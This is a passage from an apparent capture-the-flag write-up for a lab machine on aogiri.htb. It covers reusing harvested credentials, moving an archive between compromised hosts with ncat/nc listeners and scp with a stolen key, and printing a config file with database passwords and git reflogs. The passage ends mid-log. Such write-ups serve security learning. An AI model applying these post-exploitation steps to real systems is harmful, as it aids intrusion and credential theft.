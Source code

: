 
So we have new credentials :

**kaneki:12345ILoveTouka!!!**

I tried to log in into Gogs with those but there is only a gogstest report, totally empty and useless. Lets focus on the other file: **aogiri-app.7z**
After having downloaded it locally:

<pre>chmod 777 aogiri-app.7z
cp aogiri-app.7z /tmp
ncat -l -p 1234 -q 1 > aogiri-app.7z< /dev/null → on 172.18.0.200
cat aogiri-app.7z | nc 172.18.0.200 1234 → on 172.18.0.2
scp -P9000 -i id_rsa kaneki_pub@127.0.0.1:/tmp/aogiri-app.7z  ./aogiri-app.7z </pre>

I started looking at it closely. It is a git repository. Really interesting.
It seems that initially I found some creds but unfortunately useless :(

<pre>/src/main/resources# cat application.properties 
server.port=8080
spring.datasource.url=jdbc:mysql://172.18.0.1:3306/db
spring.datasource.username=kaneki
spring.datasource.password=jT7Hr$.[nF.)c)4C
server.address=0.0.0.0

spring.jpa.properties.hibernate.dialect = org.hibernate.dialect.MySQL5InnoDBDialect
spring.jpa.hibernate.ddl-auto = validate

spring.servlet.multipart.enabled=true
spring.servlet.multipart.file-size-threshold=2KB
spring.servlet.multipart.max-file-size=200MB
spring.servlet.multipart.max-request-size=215MB</pre>

As first we can look at it using common git commands, as log, show,branch etc.. but those are rabbit holes. Indeed, looking at the git logs we can see that there  is a remote git repository !

<pre>logs/refs/heads/master:0000000000000000000000000000000000000000 8b7452057fc35b5bd81a0b26a4bd2fe1220ab667 kaneki <kaneki@aogiri.htb> 1546062314 +0530    commit (initial): update readme
logs/refs/heads/master:8b7452057fc35b5bd81a0b26a4bd2fe1220ab667 bec96aaf334dc0110caa163e308d4e2fc2b8f133 kaneki <kaneki@aogiri.htb> 1546062622 +0530    commit: updated dependencies
logs/refs/heads/master:bec96aaf334dc0110caa163e308d4e2fc2b8f133 51d2c360b13b37ad608361642bd86be2a4983789 kaneki <kaneki@aogiri.htb> 1546062722 +0530    commit: added readme
logs/refs/heads/master:51d2c360b13b37ad608361642bd86be2a4983789 ed5a88cbbc084cba1c0954076a8d7f6f5ce0d64b kaneki <kaneki@aogiri.htb> 1546062881 +0530    commit: mysql support
logs/refs/heads/master:813e0a518064778343ba54b64e16ad44c19900fb b3752e00721b4b87c99ef58e3a54143061b20b99 kaneki <kaneki@aogiri.htb> 1546063447 +0530    commit: noro stop doing stupid shit
logs/refs/heads/master:b3752e00721b4b87c99ef58e3a54143061b20b99 e29ad435b1cf4d9e777223a133a5b0a9aaa20625 kaneki <kaneki@aogiri.htb> 1546063698 +0530    commit: added service
logs/refs/heads/master:e29ad435b1cf4d9e777223a133a5b0a9aaa20625 0d426b533d4f1877f8a114620be8a1294f34ab71 kaneki <kaneki@aogiri.htb> 1546064090 +0530    commit: update dependencies
logs/refs/heads/master:0d426b533d4f1877f8a114620be8a1294f34ab71 e29ad435b1cf4d9e777223a133a5b0a9aaa20625 kaneki <kaneki@aogiri.htb> 1546064281 +0530    reset: moving to HEAD^
logs/refs/heads/master:e29ad435b1cf4d9e777223a133a5b0a9aaa20625 0d426b533d4f1877f8a114620be8a1294f34ab71 kaneki <kaneki@aogiri.htb> 1546064622 +0530    reset: moving to 0d426b5
logs/refs/heads/master:0d426b533d4f1877f8a114620be8a1294f34ab71 b3752e00721b4b87c99ef58e3a54143061b20b99 kaneki <kaneki@aogiri.htb> 1546064718 +0530    reset: moving to b3752e0
logs/refs/heads/master:b3752e00721b4b87c99ef58e3a54143061b20b99 b43757dbbefdb3af3966fbd5ca273496180dc913 kaneki <kaneki@aogiri.htb> 1546064792 +0530    commit: added mysql deps
logs/refs/heads/master:b43757dbbefdb3af3966fbd5ca273496180dc913 647c5f1a2f95e117244d9128bff7a579ca1d4968 kaneki <kaneki@aogiri.htb> 1546065100 +0530    commit: changed service
<b>logs/refs/remotes/origin/master</b>:0000000000000000000000000000000000000000 98ecb8ad40e3d47029bfecd3e356d4b880d835e3 kaneki <kaneki@aogiri.htb> 1546062361 +0530   pull: storing head
<b>logs/refs/remotes/origin/master</b>:98ecb8ad40e3d47029bfecd3e356d4b880d835e3 8b7452057fc35b5bd81a0b26a4bd2fe1220ab667 kaneki <kaneki@aogiri.htb> 1546062429 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:8b7452057fc35b5bd81a0b26a4bd2fe1220ab667 bec96aaf334dc0110caa163e308d4e2fc2b8f133 kaneki <kaneki@aogiri.htb> 1546062643 +0530   update by push
<b>logs/refs/remotes/origin/master</b>:bec96aaf334dc0110caa163e308d4e2fc2b8f133 51d2c360b13b37ad608361642bd86be2a4983789 kaneki <kaneki@aogiri.htb> 1546062735 +0530   update by push